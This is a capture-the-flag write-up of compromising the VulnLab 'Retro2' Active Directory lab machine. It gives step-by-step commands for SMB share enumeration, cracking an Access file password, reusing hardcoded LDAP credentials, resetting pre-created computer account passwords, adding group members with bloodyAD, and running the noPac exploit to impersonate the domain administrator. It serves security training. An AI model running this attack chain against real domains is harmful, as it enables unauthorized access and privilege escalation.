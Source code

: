 ```yaml
---
title: VulnLab -- Retro2 Writeup
date: 2025-03-30 00:00:00 +0800
categories: [windows machine]
tags: [Active Directory,ACLs,pre2k]
image:
    path: /images/Retro2-banner.png
---
```

# Retro2

Hello Friends,

Remo is Back

In this write-up, I’ll walk through how I pwned the **Retro2** machine from **VulnLab**. From initial enumeration to gaining root access, I’ll explain the key steps, tools, and techniques used to complete the box.

![image.png](../images/retro2-banner.png)

Let’s start by scanning the machine.

```bash
sudo nmap -sC -sV -sS -O -A -oN scanned.txt -p 139,49173,5722,135,49154,3269,389,9389,636,464,3389,49155,49157,3268,49158 --min-rate=1000 10.10.103.242
```

![image.png](../images/retro2.png)

Now let’s enumerate the shares on the machine

```bash
nxc smb retro2.vl -u 'guest' -p '' --shares
```

![image.png](../images/retro2%201.png)

> We see we have access to a share named Public
> 

Now let’s try to access the share

```bash
smbclient \\\\retro2.vl\\Public -U "retro2.vl\guest"
```

![image.png](../images/retro2%202.png)

and we got access to two folders DB and TEMP

let’s go to the DB folder and see it’s content

```bash
cd DB
```

![image.png](../images/retro2%203.png)

we found an access document so let’s go download it and open it

```bash
get staff.accdb
```

![image.png](../images/retro2%204.png)

now let’s open the access file

![image.png](../images/retro2%205.png)

> Since the access file have a password let’s crack it
> 

First get the password hash

```bash
office2john staff.accdb > crackme.txt
```

![image.png](../images/retro2%206.png)

Now let’s crack the password

```bash
john crackme.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

![image.png](../images/retro2%207.png)

we got the password for the office file which is class08

let’s go and open it again

![image.png](../images/retro2%208.png)

> We found a VB script that is making ldap query with hardcoded username and password
username: retro2\ldapreader
password: ppYaVcB5R
> 

Now let’s see if they are working!

```bash
nxc smb retro2.vl -u ldapreader -p ppYaVcB5R
```

![image.png](../images/retro2%209.png)

Yeah they did now let’s get all the users in the machine

```bash
nxc smb retro2.vl -u 'guest' -p '' --shares --users --rid-brute 10000
```

![image.png](../images/retro2%2010.png)

now save the output and let’s extract the usernames

```bash
cat results.txt | grep -i SidTypeUser | awk '{print $6}' | cut -d "\\" -f 2 > users.txt
```

![image.png](../images/retro2%2011.png)

Now let’s get a bloodhound

![image.png](../images/retro2%2012.png)

now let’s open bloodhound and search for any interesting attack vector 

![image.png](../images/retro2%2013.png)

we didn’t find anything so let’s try to search for pre created computer accounts

```bash
nxc smb retro2.vl -u 'fs01$' -p 'fs01' 
```

![image.png](../images/retro2%2014.png)

Now let’s change it’s password

```bash
impacket-changepasswd retro2.vl/FS01$:fs01@10.10.103.242 -altuser ldapreader -altpas ppYaVcB5R
```

![image.png](../images/retro2%2015.png)

now let’s see what this computer can do

![image.png](../images/retro2%2016.png)

notice that our computer have generic write over another computer so let’s reset the ADMWS01 computer password

```bash
net rpc password ADMWS01$ -U retro2.vl/'FS01$'%'remo123$' -S 10.10.103.242
```

![image.png](../images/retro2%2017.png)

now let’s check if the password is changed!

```bash
nxc smb retro2.vl -u 'ADMWS01$' -p 'remo123$'
```

![image.png](../images/retro2%2018.png)

yes it changed so let’s go back to bloodhound and see what we can do now

![image.png](../images/retro2%2019.png)

> Out computer object can add a member to the service group
> 

Now let’s add the ldapreader to the service group

```bash
bloodyAD --host bln01.retro2.vl -d retro2.vl -u "ADMWS01$" -p "remo123$" add groupMember "SERVICES" "ldapreader"
```

![image.png](../images/retro2%2020.png)

Now since ldapreader is now member of the services group let’s see what this group can do

![image.png](../images/retro2%2021.png)

> Notice that the members of the services group can RDP to the machine
> 

Let’s RDP to the machine

```bash
xfreerdp /u:ldapreader /p:ppYaVcB5R /d:retro2.vl /v:10.10.103.242 /cert-ignore /tls-seclevel:0
```

![image.png](../images/retro2%2022.png)

Now let’s exploit the noPac bug to get admin privilege

```bash
python noPac.py retro2.vl/ldapreader:'ppYaVcB5R' -dc-ip 10.10.103.242 -shell --impersonate administrator -use-ldap
```

![image.png](../images/retro2%2023.png)

and we got admin privilege

so let’s go to the admin desktop and see the flag

```bash
dir c:\users\administrator\desktop
```

![image.png](../images/retro2%2024.png)

Amazing we got the root flag 🥳

![image.png](../images/retro2%2025.png)

That’s it for the **Retro2** machine! This challenge was a great test of enumeration and exploitation skills. Hope you found the write-up useful.

Remo

CRTE | CRTO | CRTP | eWPTX